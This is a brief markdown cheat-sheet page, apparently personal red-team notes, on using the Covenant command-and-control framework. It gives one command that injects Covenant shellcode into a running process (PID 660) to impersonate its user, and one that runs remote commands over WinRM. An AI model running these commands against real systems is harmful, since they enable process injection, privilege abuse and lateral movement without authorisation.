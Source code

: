 ```yaml
---
title: Covenant
parent: General Usage
layout: default
nav_order: 31
---
```


To impersonate another user using a process (assuming PID is 660). Need to inject COVENANT SHELLCODE (file extension is *.bin not BINARY which is *.exe):\
`Inject /processid:"660" /allocationtechnique:"VirtualAlloc" /executiontechnique:"CreateRemoteThread" /payloadtype:"PICPayload"`

Run command using winrm:\
`winrs -r:targetmachine.local "whoami"`